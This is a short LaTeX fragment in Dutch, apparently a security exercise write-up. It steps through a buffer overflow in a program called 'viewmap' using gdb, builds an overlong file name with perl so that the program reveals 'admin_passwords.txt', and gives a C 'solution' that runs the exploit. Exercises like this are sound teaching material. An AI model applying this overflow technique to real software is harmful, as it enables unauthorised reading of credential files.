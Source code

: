 \begin{enumerate}
  \item gcc-3.3 -g -o viewmap viewmap.c
  \item gdb -q viewmap
  \item (gdb) list
  	\begin{enumerate}
  		\item char filelist neemt enkel bestandsnamen van lengte 200 aan.
  		\item Het aanmaken van een bestand \textgreater ~ 200 zal deze array overschrijven.
  	\end{enumerate}
  \item (gdb) quit
  \item touch ``\$(perl -e `print ``Bestand.txt'' . `` ''x39 . ``admin\_passwords.txt'' ')''
  	\begin{enumerate}
  	\item Het bestand met een lengte \textgreater ~ 200 is aangemaakt.
  	\end{enumerate}
  \item ./viewmap
  	\begin{enumerate}
  	\item Succes!
  	\end{enumerate}
  \item Een mogelijke oplossing is de volgende:
\end{enumerate}

\begin{lstlisting}
oplossing.c
-----------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void){
	system("touch \"$(perl -e 'print \"Bestand.txt\" . \" \"x39 . \"admin_passwords.txt\"')\"");

	system("./viewmap");
}
\end{lstlisting}

